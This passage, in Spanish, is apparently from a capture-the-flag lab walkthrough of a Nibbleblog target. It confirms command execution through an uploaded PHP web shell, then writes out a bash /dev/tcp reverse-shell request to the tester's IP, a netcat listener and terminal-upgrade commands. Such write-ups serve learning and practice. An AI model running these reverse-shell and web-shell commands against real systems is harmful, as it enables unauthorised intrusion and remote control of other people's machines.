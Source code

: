 probamos una inyección en este archivo php

![[ 20250711115843.png]](nibbles-images/20250711115843.png)

vemos que devuelve el id por lo que tenemos web shell

vamos a mandarnos la shell a nuestro equipo para trabajar mejor

```bash
10.129.96.84/nibbleblog/content/private/plugins/about/profile_picture.php?cmd=bash -c "bash -i %26> /dev/tcp/10.10.14.35/443 0>%261" 
```

nos ponemos en escucha en el puerto seleccionado 443

```bash
nc -nlvp 443
```

![[ 20250711120612.png]](nibbles-images/20250711120612.png)

![[ 20250711120626.png]](nibbles-images/20250711120626.png)

## Tratamos la shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

`Ctrl + Z`

```bash
stty raw -echo; fg
```
